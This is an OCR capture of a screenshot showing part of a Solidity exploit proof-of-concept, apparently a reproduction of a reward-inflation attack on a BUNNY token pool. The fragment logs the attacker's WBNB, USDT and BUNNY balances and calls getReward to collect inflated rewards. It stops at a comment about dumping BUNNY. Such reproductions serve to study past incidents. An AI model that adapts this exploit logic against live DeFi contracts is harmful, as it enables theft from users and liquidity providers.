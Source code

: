 │         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                     │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                     │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         //Collect inflated rewards                                                                                                                                                                                                                   │
│         flip.getReward();                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                  │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                  │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                 │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         //Dump BUNNY                                                                                                                                                                                                                                 │